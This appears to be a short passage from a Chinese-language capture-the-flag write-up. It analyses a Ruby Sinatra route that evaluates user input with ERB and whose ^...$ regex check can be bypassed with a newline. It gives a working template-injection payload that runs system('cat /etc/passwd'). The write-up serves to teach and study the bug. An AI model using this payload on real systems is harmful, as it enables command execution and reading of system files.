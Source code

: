 ## 分析

```ruby
post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end
```

`ERB.new` 存在模板注入，可以使用换行符来绕过正则表达式 `x%0a%0d<%= system('cat /etc/passwd') %>`

